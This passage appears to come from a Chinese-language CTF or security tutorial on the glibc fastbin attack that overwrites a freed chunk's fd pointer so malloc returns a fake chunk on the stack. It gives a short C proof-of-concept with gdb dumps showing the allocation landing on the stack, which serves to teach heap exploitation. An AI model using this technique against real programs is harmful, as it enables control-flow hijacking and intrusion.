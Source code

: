如果你已經理解了前文所講的 Fastbin Double Free 與 house of spirit 技術，那麼理解該技術就已經不成問題了，它們的本質都在於 fastbin 鏈表的特性：當前 chunk 的 fd 指針指向下一個 chunk。

該技術的核心點在於劫持 fastbin 鏈表中 chunk 的 fd 指針，把 fd 指針指向我們想要分配的棧上，從而實現控制棧中的一些關鍵數據，比如返回地址等。

### 演示
這次我們把 fake_chunk 置於棧中稱爲 stack_chunk，同時劫持了 fastbin 鏈表中 chunk 的 fd 值，通過把這個 fd 值指向 stack_chunk 就可以實現在棧中分配 fastbin chunk。
```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

int main(void)
{
    CHUNK stack_chunk;

    void *chunk1;
    void *chunk_a;

    stack_chunk.size=0x21;
    chunk1=malloc(0x10);

    free(chunk1);

    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通過 gdb 調試可以看到我們首先把 chunk1 的 fd 指針指向了 stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之後第一次 malloc 使得 fastbin 鏈表指向了 stack_chunk，這意味着下一次分配會使用 stack_chunk 的內存進行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000
```
最終第二次malloc返回值爲0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70

0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw-
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw-
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw-
```